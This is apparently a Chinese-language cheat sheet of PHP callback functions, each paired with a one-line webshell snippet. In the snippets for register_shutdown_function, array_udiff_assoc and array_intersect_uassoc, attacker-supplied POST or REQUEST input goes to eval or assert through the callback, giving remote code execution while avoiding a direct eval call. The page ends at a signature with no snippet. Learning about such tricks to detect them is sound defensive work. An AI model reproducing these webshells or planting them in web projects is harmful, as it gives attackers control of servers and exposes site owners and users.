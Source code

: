 #### register_shutdown_function

```php
// (PHP 4, PHP 5, PHP 7)
// register_shutdown_function — 注册一个会在php中止时执行的函数
register_shutdown_function ( callable $callback [, mixed $parameter [, mixed $... ]] ) : void
```

```php
// php7+ 存在立即执行函数(function($a){@eval($a)})($_POST['cmd'])
<?php
    function test($a){
    	@eval("$a");
	}
	register_shutdown_function(test,$_POST['cmd']);
?>
```

#### array_udiff_assoc

```php
// (PHP 5, PHP 7)
// array_udiff_assoc — 带索引检查计算数组的差集，用回调函数比较数据
array_udiff_assoc ( array $array1 , array $array2 [, array $... ], callable $value_compare_func ) : array
```

```php
<?php
    function test($a){
        @eval($a);
    }
    array_udiff_assoc(array($_REQUEST['h']),array(1),"test");
?>
```

#### array_intersect_uassoc

```php
// (PHP 5, PHP 7)
// array_intersect_uassoc — 带索引检查计算数组的交集，用回调函数比较索引
array_intersect_uassoc ( array $array1 , array $array2 [, array $... ], callable $key_compare_func ) : array
```

```php
<?php
    array_intersect_uassoc(array($_REQUEST[h]=>" "),array(1),"assert");
?>
```

#### forward_static_call_array

```php
// forward_static_call_array — Call a static method and pass the arguments as array
forward_static_call_array ( callable $function , array $parameters ) : mixed
```

